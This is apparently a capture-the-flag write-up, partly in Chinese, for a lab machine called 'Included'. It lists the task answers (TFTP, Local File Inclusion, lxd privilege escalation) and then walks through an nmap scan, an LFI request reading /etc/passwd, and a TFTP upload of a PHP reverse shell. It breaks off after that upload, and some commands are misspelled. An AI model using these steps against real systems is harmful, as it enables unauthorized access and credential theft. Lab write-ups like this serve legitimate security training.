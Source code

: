 <center>Included</center>





[toc]



## Included

> Included





### 1. task

1. What service is running on the target machine over UDP?

```shell
tftp
```

2. What class of vulnerability is the webpage that is hosted on port 80 vulnerable to?

```shell
Local File Inclusion
```

3. What is the default system folder that TFTP uses to store files?

```shell
/var/lib/tftpboot/
```

4. Which interesting file is located in the web server folder and can be used for Lateral Movement?

```shell
.htpasswd
```

5. What is the group that user Mike is a part of and can be exploited for Privilege Escalation?

```shell
lxd
```

6. When using an image to exploit a system via containers, we look for a very small distribution. Our favorite for this task is named after mountains. What is that distribution name?

```shell
Alpine
```

7. What flag do we set to the container so that it has root privileges on the host system?

```shell
security.privileged=true
```

8. If the root filesystem is mounted at /mnt in the container, where can the root flag be found on the container after the host system is mounted?

```shell
/mnt/root
```











### 3. flag

> 获取flag
>
> [blog](https://blog.csdn.net/sycamorelg/article/details/134369643)

* 信息收集

```shell
nmap -sC -sV ip
```

![image-20241206141048104](./assets/image-20241206141048104.png)

> 访问web页面

```shell
文件包含漏洞探测
```

> **观察请求地址：http://10.129.193.21/?`file=home.php`，利用file参数动态加载文件，尝试进行文件包含漏洞探测。**
>
> **服务器操作系统是ubuntu，尝试包含`/etc/passwd`文件，成功访问/etc/passwd\****

```shell
culr "ip/?file=/etc/passwd"
```

![image-20241206141242944](./assets/image-20241206141242944.png)

> TFTP利用： 
>
> 在包含/etc/passwd文件后，发现存在mike、tftp用户。
>
>   TFTP (Trivial File Transfer Protocol)是一种简单的协议，提供基本的文件传输功能，不需要用户身份验证。TFTP使用用户数据报协议(UDP)进行通信，适用于不需要文件传输协议(FTP)提供的复杂交互的应用程序。
>   通过上述描述可知：TFTP运行在UDP端口上，并且不需要身份验证。

>  **TFTP服务器已经连接上，可以上传下载文件，此时可以通过TFTP服务器上传一个反弹shell，使用文件包含漏洞执行shell。**

```shell
# 使用TFTP连接工具
tfpt ip

# 上传shell
put  reverse-shell.php
```


